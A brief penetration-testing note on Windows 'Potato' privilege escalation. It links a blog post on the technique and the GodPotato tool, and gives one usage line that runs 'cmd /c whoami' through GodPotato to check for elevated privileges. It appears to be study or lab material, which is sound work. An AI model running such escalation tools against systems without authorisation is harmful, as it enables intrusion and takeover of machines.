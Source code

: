 https://jlajara.gitlab.io/Potatoes_Windows_Privesc



link for binary - https://github.com/BeichenDream/GodPotato
```bash
GodPotato -cmd "cmd /c whoami"
```
